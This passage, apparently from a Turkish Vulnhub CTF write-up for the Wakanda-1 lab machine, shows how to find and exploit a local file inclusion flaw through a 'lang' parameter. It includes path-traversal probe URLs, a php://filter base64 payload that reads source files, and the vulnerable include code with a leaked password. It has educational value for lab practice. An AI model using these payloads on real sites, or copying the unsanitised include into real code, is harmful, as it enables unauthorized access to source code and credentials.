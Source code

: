 Siteyi ve sitenin kaynak kodunu incelediğimizde ilginç bi şey farkediyoruz.

```text
<!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->
```

Yorum satırı haline getirilmiş. Bunu kullanmamız gerek. Siteye `http://192.168.56.101/index.php?lang=fr` şeklinde girdiğimizde sitenin dili değişiyor. Bu parametrenin dizin için kullanılıp kullanılmadığını kontrol etmeye çalışalım.

```text
http://192.168.56.101/index.php?lang=../
http://192.168.56.101/index.php?lang=index
http://192.168.56.101/index.php?lang=../../
http://192.168.56.101/index.php?lang=index.php
http://192.168.56.101/index.php?lang=fr
http://192.168.56.101/index.php?lang=fr.php
```

Bu şekilde verinin bir dosyadan çektiğini anlıyoruz. Muhtemelen dosyanın sadece ismini alıyor ve uzantısını kendiki ekliyor. Şu şekilde bir kod ile dosyalara ulaşabiliriz.

```text
http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index
```

Bu LFI (local file inclusion) açığıdır. Daha ayrıntılı bilgi için [buraya](https://github.com/lucyoa/ctf-wiki/tree/master/web/file-inclusion) tıklayabilirsiniz.

Buradan `index.php` sayfasının php kodunu çekeriz. Bu kodlar base64 ile kodlanmıştır. Bunu terminalden `base64 -d` komutu ile yada herhangi bir internet sitesi üzerinden decode edebilirsiniz. Decode ettikten sonra sayfanın kaynak kodunu incelersek şu şekilde bir kaç satır ile karşılaşırız.

```php
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}

?>
```

![resim](/Vulnhub/resimler/wakanda-1/wakanda-3.png)
